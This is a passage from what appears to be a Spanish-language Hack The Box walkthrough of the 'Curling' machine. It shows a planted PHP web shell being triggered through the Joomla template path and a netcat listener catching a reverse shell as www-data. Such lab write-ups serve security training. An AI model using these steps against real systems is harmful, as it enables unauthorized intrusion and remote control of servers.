 ![](/assets/images/htb-curling/curling-web8.png)

Ahora, para apuntar a nuestro archivo, debemos recordar que el *fuzzing* de `nmap` existe un recurso llamado `templates` y como nos encontramos dentro de dicha sección, podriamos pensar que igual en dicho recurso está nuestro archivo. Por lo tanto apuntamos a nuestro archivo y nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.150/templates/beez3/k4mishell.php
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.150] 39842
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 21:01:34 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
